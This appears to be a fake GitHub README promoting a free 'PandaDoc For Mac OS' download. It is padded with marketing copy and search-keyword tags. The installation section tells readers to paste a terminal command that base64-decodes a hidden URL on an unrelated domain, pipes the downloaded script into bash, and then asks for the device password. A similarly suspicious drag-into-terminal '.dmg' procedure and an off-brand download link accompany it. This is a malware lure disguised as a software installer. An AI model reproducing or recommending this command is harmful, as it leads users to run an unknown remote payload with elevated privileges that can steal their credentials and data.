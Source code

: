 # PandaDoc For Mac OS  — Free Download Now 🐼

![banner-pandadoc](https://upload.wikimedia.org/wikipedia/commons/thumb/8/83/PandaDoc_Logo_PNG.png/1200px-PandaDoc_Logo_PNG.png)
PandaDoc For Mac OS is a powerful, user-friendly document management and e-signature solution designed for macOS users. Streamline your workflow with seamless document creation, signing, and sharing. Follow the instructions below to install PandaDoc on your Mac and unlock its full potential.

> [![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/pandadoc)

> If the download button doesn’t work, follow the manual installation instructions below using the terminal.

## 📦 How to Install PandaDoc For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


## 🎯 What You Get with PandaDoc

- 🖋️ **E-Signature Capabilities**: Sign documents electronically with legally binding signatures, saving time and paper.
- 📄 **Document Creation**: Create professional proposals, contracts, and quotes with customizable templates.
- 📊 **Real-Time Tracking**: Monitor document status, including views and signatures, in real time.
- 🔄 **Seamless Integrations**: Connect with tools like Salesforce, HubSpot, and Google Drive for enhanced productivity.
- 🔒 **Secure Storage**: Store documents securely with encryption and access them anytime.
- 📱 **Cross-Platform Sync**: Sync your documents across devices for a consistent experience.

## About PandaDoc

PandaDoc For Mac OS is a leading document management software designed to simplify the creation, signing, and tracking of professional documents. Whether you're a freelancer, small business owner, or part of a large enterprise, PandaDoc empowers you to create polished proposals, contracts, and invoices in minutes. Its intuitive macOS interface ensures a seamless experience, making it a must-have tool for professionals seeking efficiency and reliability. By incorporating **document management**, **e-signatures**, and **workflow automation**, PandaDoc eliminates the hassle of manual paperwork.

The software’s robust features include customizable templates, real-time collaboration, and secure cloud storage, making it ideal for macOS users who prioritize productivity. With **PandaDoc For Mac**, you can integrate with popular platforms like Salesforce, HubSpot, and Slack, ensuring your documents align with your existing workflows. The application is optimized for macOS, offering a native experience that feels right at home on your MacBook or iMac. Its **free download** option allows users to explore its features without upfront costs, making it accessible to all.

For businesses looking to streamline operations, PandaDoc offers advanced analytics to track document performance, such as open rates and signature completion times. This data-driven approach helps you make informed decisions and improve client interactions. The software’s **secure e-signature** functionality complies with global standards, ensuring your documents are legally binding and protected. Whether you’re managing contracts or sharing proposals, PandaDoc For Mac OS delivers a professional, efficient solution.

By choosing PandaDoc, you’re investing in a tool that enhances productivity and simplifies document workflows. Its **free macOS download** makes it easy to get started, and the intuitive interface ensures you can create, send, and sign documents with ease. Join thousands of macOS users who trust PandaDoc for their **document management** and **e-signature** needs, and experience a smarter way to work.

## ✅ Advantages of PandaDoc

- 🚀 **Fast Document Creation**: Build professional documents in minutes with pre-built templates.
- 🔐 **Secure E-Signatures**: Sign and share documents with confidence using encrypted, legally binding signatures.
- 📈 **Real-Time Analytics**: Track document performance with insights into views and signatures.
- 🌐 **Cloud Integration**: Sync with Google Drive, Dropbox, and other platforms for seamless access.
- 🖥️ **Mac-Optimized Interface**: Enjoy a native macOS experience designed for ease of use.
- 🛠️ **Customizable Workflows**: Tailor documents and processes to fit your business needs.

## 🖼 Preview

![Document Creation](https://public-site.marketing.pandadoc-static.com/app/uploads/sites/3/Keep-Eyes-and-Tabs_Home-1024x512.png)
*Create professional documents with customizable templates.*

![E-Signature Interface](https://i.postimg.cc/7Z9pD2qZ/pandadoc-esign.jpg)
*Sign documents securely with a user-friendly e-signature interface.*

![Analytics Dashboard](https://i.postimg.cc/3R1qN0gZ/pandadoc-analytics.jpg)
*Track document performance with real-time analytics.*

![Integration Settings](https://i.postimg.cc/vH5W3Z0W/pandadoc-integrations.jpg)
*Connect PandaDoc with your favorite tools for seamless workflows.*

## 🔍 Tags

pandadoc, pandadoc download, pandadoc for mac, pandadoc mac, pandadoc free, pandadoc pricing, panda doc pricing, panda docs pricing, pandadoc sign in, pandadoccom, panda doc sign in, pandadoc signature, pandadoc cost
